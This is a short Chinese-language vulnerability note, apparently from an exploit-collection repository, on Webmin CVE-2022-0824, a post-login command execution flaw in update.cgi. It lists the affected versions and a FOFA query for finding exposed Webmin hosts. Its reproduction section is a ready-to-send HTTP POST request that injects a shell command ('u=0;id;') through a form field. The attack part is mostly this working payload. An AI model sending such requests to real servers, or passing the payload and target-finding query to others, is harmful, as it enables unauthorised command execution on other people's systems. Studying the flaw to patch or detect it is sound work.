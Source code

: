 # Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

```
Webmin < 1.990
```

## FOFA

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](./images/202208291022969.png)

登录后发送请求包

```
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![image-20220829102233314](./images/202208291022378.png)